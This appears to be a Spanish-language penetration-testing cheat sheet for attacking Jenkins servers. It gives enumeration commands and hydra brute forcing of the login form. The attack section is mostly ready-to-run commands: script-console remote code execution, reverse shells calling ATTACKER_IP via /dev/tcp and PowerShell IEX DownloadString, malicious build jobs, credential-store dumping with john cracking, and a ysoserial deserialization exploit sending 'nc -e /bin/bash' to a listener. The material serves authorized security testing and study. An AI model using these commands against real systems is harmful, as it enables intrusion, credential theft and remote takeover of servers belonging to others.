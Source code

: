 
# Jenkins - Discovery & Enumeration

## Discovery/Footprinting

Identificación de Jenkins en una red

```c
nmap -p 8080 --script http-title <IP>
```

```c
whatweb http://<IP>:8080
```

Descubrimiento de Endpoints Sensibles

```c
curl -s -X GET http://<IP>:8080/api/json
```

Obtener información del servidor Jenkins en formato JSON.

```c
curl -s -X GET http://<IP>:8080/securityRealm/user/admin
```

Enumeración de Usuarios

```c
hydra -L users.txt -P passwords.txt <IP> http-post-form "/j_acegi_security_check:j_username=^USER^&j_password=^PASS^:F=Invalid"
```

Enumeración de Plugins Instalados

```c
curl -s -X GET http://<IP>:8080/pluginManager/api/json?depth=1 | jq
```

Enumeración de Jobs y Builds

```c
curl -s -X GET http://<IP>:8080/job/<JOB_NAME>/api/json
```

Obtener detalles de un job específico.

```c
curl -s -X GET http://<IP>:8080/computer/api/json
```

Identificación de Configuraciones Débiles

```c
curl -s -X GET http://<IP>:8080/config.xml
```

Verificar configuraciones globales de Jenkins.

```c
curl -s -X GET http://<IP>:8080/manage
```

---
## Attacking Jenkins

####  Explotación de Jenkins Script Console

Si el endpoint `/script` está accesible, se puede ejecutar código arbitrario:

```c
curl -X POST http://<IP>:8080/scriptText --data-urlencode "script=println 'Hacked!'.execute().text"
```

- **Objetivo**: Ejecutar comandos en el servidor.
    

Ejecutar un **revershell** en Linux:

```c
def cmd = "bash -c 'bash -i >& /dev/tcp/ATTACKER_IP/4444 0>&1'".execute()
cmd.waitFor()
```

Ejecutar un **revershell** en Windows:

```c
def cmd = "powershell -c IEX(New-Object Net.WebClient).DownloadString('http://ATTACKER_IP/shell.ps1')".execute()
cmd.waitFor()
```
#### 2. Explotación de Credenciales Expuestas

Si se puede acceder a `credentials.xml`:

```c
curl -s -X GET http://<IP>:8080/credentials/store/system/domain/_/api/json
```

- Buscar credenciales almacenadas.
    

Si se obtiene un hash:

```c
john --wordlist=rockyou.txt hash.txt
```

- Intentar descifrar contraseñas.
    



#### 3. RCE a través de Build Jobs

Si tienes permisos para crear/modificar un Job:

1. Crear un nuevo Job en `/newJob`.
2. Configurar el Build con un comando malicioso:

- **Linux**:
```c   
bash -i >& /dev/tcp/ATTACKER_IP/4444 0>&1
```

- **Windows**:
```c
IEX(New-Object Net.WebClient).DownloadString('http://ATTACKER_IP/shell.ps1')
```

3. Ejecutar el Job y capturar la shell en el atacante:

```c
nc -lvnp 4444
```
#### 4. Explotación de Plugins Vulnerables

Buscar plugins vulnerables:

```c
curl -s http://<IP>:8080/pluginManager/api/json?depth=1 | jq
```

Si se detecta **Script Security Plugin** (antes de 1.50), se puede ejecutar código arbitrario desactivando sandbox.

#### 5. Privilege Escalation & Lateral Movement

Si se obtiene acceso a Jenkins:

```c
whoami
id
cat /etc/passwd
```

- **Objetivo**: Identificar privilegios y posibles movimientos laterales.

Si Jenkins está en modo **Master-Slave**, intentar ejecutar comandos en los agentes:

```c
curl -X POST http://<IP>:8080/computer/slave-01/scriptText --data-urlencode "script=println 'whoami'.execute().text"
```

#### 6. Deserialización & Exploits Públicos

Algunas versiones de Jenkins son vulnerables a deserialización remota (CVE-2017-1000353):

```c
java -jar ysoserial.jar CommonsCollections6 "nc -e /bin/bash ATTACKER_IP 4444" | nc <IP> 8080
```

- **Objetivo**: Exploitar Jenkins usando un exploit de deserialización.
